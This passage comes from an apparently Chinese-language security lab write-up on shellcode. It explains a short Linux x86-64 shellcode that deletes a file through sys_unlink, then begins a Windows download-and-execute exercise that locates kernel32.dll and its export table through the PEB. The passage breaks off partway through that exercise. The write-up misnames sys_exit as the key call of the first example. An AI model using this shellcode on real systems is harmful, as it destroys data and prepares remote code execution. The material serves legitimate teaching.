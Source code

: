   * 使用`./shell`运行    
    ![](images/20.png)  
    * test.txt文件确实被删除了，程序运行成功！

  * 解读这段shellcode代码  
    * 代码很短  
    ```
    global _start
    section .text

    _start:
        jmp short _file

    delete:
        push 87             ;sys_unlink
        pop rax
        pop rdi             ;fname
        syscall

    exit:
        xor rax,  rax
        mov al,   60         ;sys_exit
        syscall

    _file:
        call delete
        fname: db "test.txt"
    ```
    * 重点就是参数入栈，然后调用系统函数sys_exit
    
    




******************
### 实验二：文件下载执行
+ 修改示例代码的[shellcode](https://www.exploit-db.com/exploits/48355)，将其功能改为下载执行。也就是从网络中下载一个程序，然后运行下载的这个程序。提示：Windows系统中最简单的下载一个文件的API是 UrlDownlaodToFileA
  + 找到`kernel32.dll`的基址
    ```asm
    ; Find kernel32.dll base address
     xor ebx, ebx
     mov ebx, [fs:ebx+0x30]  ; EBX = Address_of_PEB
     mov ebx, [ebx+0xC]      ; EBX = Address_of_LDR
     mov ebx, [ebx+0x1C]     ; EBX = 1st entry in InitOrderModuleList / ntdll.dll
     mov ebx, [ebx]          ; EBX = 2nd entry in InitOrderModuleList / kernelbase.dll
     mov ebx, [ebx]          ; EBX = 3rd entry in InitOrderModuleList / kernel32.dll
     mov eax, [ebx+0x8]      ; EAX = &kernel32.dll / Address of kernel32.dll
     mov [ebp-0x4], eax      ; [EBP-0x04] = &kernel32.dll
    ```
  + `kernel32.dll`导出表的地址
    ```asm
    ; Find the address of the Export Table within kernel32.dll
     mov ebx, [eax+0x3C]     ; EBX = Offset NewEXEHeader
